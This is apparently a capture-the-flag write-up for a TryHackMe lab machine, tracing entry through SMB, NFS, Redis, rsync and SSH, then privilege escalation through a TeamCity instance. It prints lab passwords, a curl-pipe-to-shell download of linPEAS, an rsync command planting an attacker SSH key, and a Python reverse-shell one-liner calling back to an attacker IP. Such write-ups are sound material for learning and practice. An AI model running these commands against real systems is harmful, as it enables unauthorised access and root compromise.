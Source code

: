 > **_analysing ports of namp scan serially:_**


* SMBLIENT TO GET SERVICE FLAG
                    `smbclient -L \\10.10.247.180\`
                    
* RPCBIND TO GET SOME FILES
                   ` showmount -e 10.10.238.66 `
                    Export list for 10.10.238.66:
                    /opt/conf *
                    then mount the /opt/conf we get

 *                       -----redis
                          --redis.conf


                               redis.conf hints us to to use redis-cli and its pass was stored in the file redis-conf : "B65Hx562F@ggAZ@F"
                               `redis-cli -h 10.10.35.239 -p 6379 -a B65Hx562F@ggAZ@F`
                               then type : KEY * (to list all files)
                                    we get internal flag : DUMP "internal flag"
                                    and authlist which conatains a b64 encoded string that dedoce into "Hcg3HP67@TW@Bc72v" to be used in rsync.
                                    
* RSYNC (source to get into server via ssh) : use to just sync both devices in connection
                so with this we created ssh pub key and synced it int the ./ssh/authorized_keys
                   └─$ `rsync -ahv --no-o --no-g  ~/.ssh/authorized_keys rsync://rsync-connect@10.10.247.180/files/sys-internal/.ssh/`
                                                    (our file)                                                                  (target)
                                               now we can login into ssh server with the private key we have in accordnace to the public key we uploaded.
                                             
* SSH :
                      after login using ssh we get user.txt
                      in the / folder we get Theteamcity folder ..then scanned the vulnet system using linPEAS(# From github `curl -L https://github.com                         /carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`) using 
                      http server hosted on my localhost ( `python3 -m http.server 6969`) and then using wget to download linPEAS package on the vul-net                         (`wget 10.0.2.15:6969/curl`)  



     ->    these ports were suspicious:
              run by root-   
                                                                127.0.0.1:631
                        tcp   LISTEN  0       100       [::ffff:127.0.0.1]:8111                 *

                        tcp   LISTEN  0       1         [::ffff:127.0.0.1]:8105                 

                   -scanned the ip using nmap and got two prts were open one with unkwon and other with skynet serrvice running.
                   then i needed to transfer these ports to my local system so that i can enumerate if a website was present. (`ssh -i 1 -L 8111:my-ip:8111                    sys-internal@box-ip`) 
* GOT A WEBSITE:
                   it requires login credentials or a token to get in as a superuser.
                   there were nothing in the website login page (in sources , css,etc) 
                   so i jumped back in the teamcity folder present in vuln-net ssh server and done a recurrsive grep (`grep -r "token" `.)
                   got many tokens . so tried all and one was correct!
                   then i got a website with various stuffs.
                   ON enumerating the website i understoood thet i can write and run scripts from there..and since the ports were run by roots so the                          commands will be executed by roots .
                   so i ran script  `(export RHOST="10.10.10.10";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();                                    s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));       
                   [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")')`     to to get a shell on my systen using nc .
                   

cat /root/root.txt

THM{e8996faea46df09dba5676dd271c60bd}

